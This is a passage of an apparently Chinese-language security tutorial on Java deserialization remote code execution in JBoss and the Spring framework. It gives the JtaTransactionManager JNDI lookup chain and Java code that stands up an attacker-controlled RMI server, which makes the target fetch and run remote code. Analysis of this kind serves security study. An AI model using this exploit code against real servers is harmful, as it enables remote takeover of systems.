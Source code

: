 运行代码，并攻击Jboss可以得到如下执行结果：

![](http://drops.javaweb.org/uploads/images/feafe8db4eac9fd5353210db912bcb78190bb10b.jpg)

0x04 Spring framework远程命令执行分析
=====

这个漏洞涉及JNDI和RMI服务，比较有趣。代码细节分析请参考资料中的第三个，分析的非常好，就不班门弄斧了。这里简单理清这个攻击的步骤。

与`Apache Commons Collections`这个库的反序列化利用类似，我们需要将spring框架中的lib包，包含在`CLASSPATH`中。这个要求比较苛刻，需要的包也比较多：

![](http://drops.javaweb.org/uploads/images/7e63c942ebce6a232a872af15d18fc34577292f2.jpg)

翻译下[原文](http://zerothoughts.tumblr.com/post/137831000514/spring-framework-deserialization-rce)的命令执行代码链：

`spring-tx.jar`中包含`org.springframework.transaction.jta.JtaTransactionManager`类，这个类存在JNDI的反序列化问题。  
它的readObject() 方法执行中含有这样的一个路径：

```
initUserTransactionAndTransactionManager()->
lookupUserTransaction()->
JndiTemplate.lookup()->
InitialContext.lookup(userTransactionName)  

```

`InitialContext.Lookup()`会调用`userTransactionName`属性，这个属性是我们可以控制的。  
查阅JNDI使用，可以发现`userTransactionName`属性可以是一个外网的RMI路径，比如:`rmi://10.10.10.1:1099/Object`。

于是我们可以**自己搭建一个RMI服务器**，让目标服务器来访问下载执行准备好的任意java代码。  
服务端搭建在Ubuntu虚拟机上，简单地建立一个socket进行数据传输并反序列化解析。代码自行查阅github~~

简要画的原理如下：

![](http://drops.javaweb.org/uploads/images/2a88587b863827830a48d109d2a2421a1526cc92.jpg)

Client端即为攻击方，它向目标服务器发送`JtaTransactionManager`序列化对象后，会触发server端进行访问Client端(即：这时的RMI服务器端)中的RMI服务，去下载任意java对象进行执行。关键代码为：

```
//创建RMI服务
Registry registry = LocateRegistry.createRegistry(1099);
Reference reference = new javax.naming.Reference("client.ExportObject","client.ExportObject","http://"+ localAddress +"/");
//访问rmi服务时，会转到该url地址中下载client.ExportObject类，并新建对象。

ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
registry.bind("Object", referenceWrapper);

String jndiAddress = "rmi://"+localAddress+":1099/Object";
//通过jndi访问rmi服务

org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
object.setUserTransactionName(jndiAddress);

```
